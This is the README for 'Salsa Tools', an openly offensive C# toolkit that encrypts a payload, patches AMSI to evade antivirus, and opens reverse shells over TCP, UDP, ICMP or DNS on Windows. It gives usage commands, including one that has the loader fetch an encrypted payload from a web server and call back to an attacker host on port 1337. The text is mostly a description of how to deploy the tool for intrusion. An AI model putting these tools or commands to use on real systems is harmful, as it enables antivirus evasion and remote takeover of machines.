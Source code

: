 ![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **Salsa Tools - ShellReverse**
# **TCP/UDP/ICMP/ DNS and AV bypass, AMSI patched**

```
   _____       __              ______            __    
  / ___/____ _/ /________ _   /_  __/___  ____  / /____
  \__ \/ __ `/ / ___/ __ `/    / / / __ \/ __ \/ / ___/
 ___/ / /_/ / (__  ) /_/ /    / / / /_/ / /_/ / (__  ) 
/____/\__,_/_/____/\__,_/    /_/  \____/\____/_/____/  
                                                       

 [+] Starting the fucking Salsa...
 [+] EncrypterAssembly (Software to encrypt our payload)
 [+] EvilSalsa (This is our payload)
 [+] SalseoLoader (Software that we will use to load our encrypted payload)
```
Salsa Toos is a set of tools written in C # that allows you to have a shellreverse in any windows environment without needing powershell for its execution.


```
  ______                             _            
 |  ____|                           | |           
 | |__   _ __   ___ _ __ _   _ _ __ | |_ ___ _ __ 
 |  __| | '_ \ / __| '__| | | | '_ \| __/ _ \ '__|
 | |____| | | | (__| |  | |_| | |_) | ||  __/ |   
 |______|_| |_|\___|_|   \__, | .__/ \__\___|_|   
     /\                   __/ | || |   | |        
    /  \   ___ ___  ___ _|___/|_|| |__ | |_   _   
   / /\ \ / __/ __|/ _ \ '_ ` _ \| '_ \| | | | |  
  / ____ \\__ \__ \  __/ | | | | | |_) | | |_| |  
 /_/    \_\___/___/\___|_| |_| |_|_.__/|_|\__, |  
                                           __/ |  
                                          |___/   
			  
 [+] Software that encrypts the payload using RC4
 [+] We have the version in python and the version in .exe
```
# Usage EncrypterAssembly in python

```
python encrypterassembly.py <FILE> <PASSWORD> <OUTPUT>
```

# Usage EncrypterAssembly in .EXE

```
Encrypterassembly.exe <FILE> <PASSWORD> <OUTPUT>
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/encrypterpython.png)

```
   ___ __ __  ____  _            
  /  _]  |  ||    || |           
 /  [_|  |  | |  | | |           
|    _]  |  | |  | | |___        
|   [_|  :  | |  | |     |       
|     |\   /  |  | |     |       
|_____| \_/  |____||_____|       
                                 
  _____  ____  _     _____  ____ 
 / ___/ /    || |   / ___/ /    |
(   \_ |  o  || |  (   \_ |  o  |
 \__  ||     || |___\__  ||     |
 /  \ ||  _  ||     /  \ ||  _  |
 \    ||  |  ||     \    ||  |  |
  \___||__|__||_____|\___||__|__|
  
[+] That is our Payload
                                 
```
# Description

EvilSalsa is our payload. Basically what we do is load the System.Management.Automation .dll. Create a runspace and within that runspaces we have four types of shells (TCP / UDP / ICMP / DNS). When the EvilSalsa is loaded into the system, the first thing it does is to check if "c:\windows\system32\amsi.dll" is found in the system. If it is in the system, it is patched: D. Patching is a patch variant of CyberArk and Rastamouse.

AMSI Bypass Redux (CyberArk) https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/  
AMSI Bypass (Rastamouse) https://rastamouse.me/2018/11/amsiscanbuffer-bypass---part-3/  


```
  _____  ____  _     _____   ___   ___    
 / ___/ /    || |   / ___/  /  _] /   \   
(   \_ |  o  || |  (   \_  /  [_ |     |  
 \__  ||     || |___\__  ||    _]|  O  |  
 /  \ ||  _  ||     /  \ ||   [_ |     |  
 \    ||  |  ||     \    ||     ||     |  
  \___||__|__||_____|\___||_____| \___/   
                                          
 _       ___    ____  ___      ___  ____  
| |     /   \  /    ||   \    /  _]|    \ 
| |    |     ||  o  ||    \  /  [_ |  D  )
| |___ |  O  ||     ||  D  ||    _]|    / 
|     ||     ||  _  ||     ||   [_ |    \ 
|     ||     ||  |  ||     ||     ||  .  \
|_____| \___/ |__|__||_____||_____||__|\_|

[+] This software is the one that we will use to load the encrypted payload
```

# Description

This software is the one that we will use to load the encrypted payload. SalseoLoader can be compiled as a library or as an executable. In the case that it is compiled as executable, we must only pass the argument that we want to execute. On the contrary, if we compile it as a library. We will have to make an export of the descriptor "main". And the way to create the argument, is done through the reading of environmental variables.

# Usage SalseoLoader
```
SalseoLoader.exe <PASSWORD> <PAYLOAD PATH> <SHELL TYPE> <LHOST> <LPORT>
```

# Usage SalseoLoader in .EXE reading from web server.
```
SalseoLoader.exe hc0n-2019 http://192.168.1.235/elmal.txt reverseudp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example1.png)


